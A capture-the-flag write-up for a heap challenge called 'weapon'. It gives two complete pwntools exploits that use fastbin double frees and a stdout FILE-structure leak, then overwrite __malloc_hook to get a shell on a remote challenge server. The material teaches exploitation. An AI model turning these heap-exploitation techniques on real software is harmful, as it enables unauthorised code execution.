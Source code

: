 # weapon
[docker-enviroment](./docker-enviroment)

this problem have two ways to solve it

> the key to topic is to let a chunk have libc address in fd. and then we use a trick to leak a libc address ,finally use fastbin attack to get shell.

## first 
make a fake 0x80(more than that is ok) chunk and free it .so that we can get libc in fd and then edit the struct of stdout to leak.finally get shell.

```
from pwn import *
def cmd(c):
	p.sendlineafter(">> \n",str(c))
def Cmd(c):
	p.sendlineafter(">> ",str(c))
def add(size,idx,name="padding"):
	cmd(1)
	p.sendlineafter(": ",str(size))
	p.sendlineafter(": ",str(idx))
	p.sendafter(":\n",name)
def free(idx):
	cmd(2)
	p.sendlineafter(":",str(idx))
def edit(idx,name):
	cmd(3)
	p.sendlineafter(": ",str(idx))
	p.sendafter(":\n",name)
def Add(size,idx,name="padding"):
	Cmd(1)
	p.sendlineafter(": ",str(size))
	p.sendlineafter(": ",str(idx))
	p.sendafter(":",name)
def Free(idx):
	Cmd(2)
	p.sendlineafter(":",str(idx))

#p=process('./pwn')
p=remote("139.180.216.34",8888)
#context.log_level='debug'
add(0x18,0)
add(0x18,1)
add(0x60,2,p64(0x0)+p64(0x21)+'\x00'*0x18+p64(0x21)*5)
add(0x60,3,p64(0x21)*12)
add(0x60,4)
add(0x60,5)
free(0)
free(1)
free(0)
free(1)

add(0x18,0,"\x50")
add(0x18,0,'\x00'*8)
add(0x18,0,"A")

add(0x18,0,'GET')

edit(2,p64(0x0)+p64(0x91))
free(0)

add(0x18,0)
add(0x60,0,'\xdd\x25')

free(2)
free(5)
free(2)
free(5)

#gdb.attach(p,'')
add(0x60,4,'\x70')
#
add(0x60,0)
add(0x60,0)
add(0x60,0)
add(0x60,0,'\x00'*(0x40+3-0x10)+p64(0x1800)+'\x00'*0x19)
p.read(0x40)

base=u64(p.read(6).ljust(8,'\x00'))-(0x7ffff7dd2600-0x7ffff7a0d000)
log.warning(hex(base))
#raw_input()
libc=ELF("./pwn").libc
Add(0x60,0)
Add(0x60,1)
Add(0x18,2)
Free(0)
Free(1)
Free(0)
Add(0x60,0,p64(libc.sym['__malloc_hook']+base-35))
Add(0x60,0)
Add(0x60,0)
one=0xf02a4
Add(0x60,0,'\x00'*19+p64(one+base))

Free(1)
Free(1)

p.interactive()


```

## second 
when we use scanf to input something .if you input lots of things ,it will malloc a 0x400 chunk to keep it temporarily。if we keep some fastbin when it malloc.it will be put into smallbin.now we also have libc address.

```
from pwn import *
context.log_level = "debug"
#p = process("./weapon")
p = remote("139.180.216.34",8888)
elf = ELF("./weapon")
a = elf.libc
#gdb.attach(p)
def create(idx,size,content):
	p.recvuntil(">> \n")
	p.sendline(str(1))
	p.recvuntil("weapon: ")
	p.sendline(str(size))
	p.recvuntil("index: ")
	p.sendline(str(idx))
	p.recvuntil("name:")
	p.send(content)
def delete(idx):
	p.recvuntil(">> ")
	p.sendline(str(2))
	p.recvuntil("idx :")
	p.sendline(str(idx))

def edit(idx,content):
	p.recvuntil(">> ")
	p.sendline(str(3))
	p.recvuntil("idx: ")
	p.sendline(str(idx))
	p.recvuntil("content:\n")
	p.send(content)

create(0,0x60,"a")
create(1,0x60,"b")
create(2,0x60,"c")
delete(0)
delete(1)
p.recvuntil(">> ")
p.sendline("1"*0x1000)
create(3,0x60,"\xdd\x25")
create(4,0x60,"e")
delete(2)
delete(1)
edit(1,"\x00")
create(5,0x60,"f")
create(6,0x60,"f")
file_struct = p64(0xfbad1887)+p64(0)*3+"\x58"
create(7,0x60,"\x00"*0x33+file_struct)
libc_addr =  u64(p.recvuntil("\x00",drop=True)[1:].ljust(8,"\x00"))-a.symbols["_IO_2_1_stdout_"]-131
print hex(libc_addr)
delete(6)
edit(6,p64(libc_addr+a.symbols["__malloc_hook"]-0x23))

create(8,0x60,"t")

create(9,0x60,"a"*0x13+p64(libc_addr+0xf1147))
p.recvuntil(">> \n")
p.sendline(str(1))
p.recvuntil("weapon: ")
p.sendline(str(0x60))
p.recvuntil("index: ")
p.sendline(str(6))

p.interactive()
```
